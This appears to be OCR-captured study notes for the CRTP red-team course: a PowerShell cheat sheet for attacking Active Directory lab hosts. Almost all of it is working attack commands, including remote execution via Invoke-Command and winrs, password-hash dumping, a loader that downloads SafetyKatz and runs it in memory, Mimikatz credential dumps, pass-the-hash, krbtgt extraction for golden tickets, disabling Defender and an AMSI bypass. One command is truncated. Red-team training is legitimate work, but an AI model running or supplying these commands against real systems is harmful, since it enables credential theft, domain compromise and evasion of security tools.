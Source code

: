 ```powershell
. .\PowerView.ps1
Find-LocalAdminAcess
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
# To hold the credentials in the memmory
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
# In case of you wont to enter to $sess
Enter-PSSession -Session $sess
# to execute command on the target machine:
Invoke-Command -ComputerName PC-2.sec.local -ScriptBlock{whoami;hostname}
# to execute script on the target machine:
Invoke-Command -ComputerName PC-2.sec.local -FilePath C:\Users\shabi\Desktop\PowerUp.ps1
# Use the below to execute commands or scriptblocks:
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list of servers>)
# Use the below to execute scripts from files
# Get-PassHashes = The payload dumps password hashes using the modified powerdump script from MSF. Administrator privileges are require
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list of servers>)
# To load script remotly on the target server
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
# Get-PassHashes = The payload dumps password hashes using the modified powerdump script from MSF. Administrator privileges are require
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -Session $sess
Lateral Movement - Winrs
# execute command on remote server
winrs -r:dcorp-mgmt hostname;whoami
CRTP 14
# Open remote connection with cmd
winrs -r:dcorp-mgmt cmd
Lateral Movement - copy file to remote host
echo F | xcopy C:\AD\Tools\Loader.exe \\finance-dc\C$\Users\Public\Loader.exe
Lateral Movement - Port Forwarded on remote host
# port forware with winrs
$null | winrs -r:finance-dc "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=1
# Use Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt
$null | winrs -r:finance-dc C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
enable RDP
# Admin Priv
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
Current Language Mode
$ExecutionContext.SessionState.LanguageMode
Lateral Movement - Invoke-Mimikatz
# Dump credentials on a local machine
Invoke-Mimikatz -DumpCreds
# Dump credentials on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
# Over pass the hash generate tokens from hashes
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:sec.local /ntlm:<ntlmhash> /run:powershell.exe"'
Persistence - Golden Ticket
# Execute mimikatz on DC to get krbtgt hash:
Invoke-Mimikatz -Command '" lsadump::lsa /patch"' -ComputerName DC-1
# Disable Defender
Set-MpPreference -DisableRealtimeMonitoring $true
# after abusing domain admin user
# create session to the DC
# AMSI bypass
$Sess = New-PSSession -ComputerName DC-1.sec.local
Invoke-Command -Session $Sess -FilePath C:\AD\Tools\Invoke-MimikatzEx.ps1
Enter-PSSession -Session $Sess
```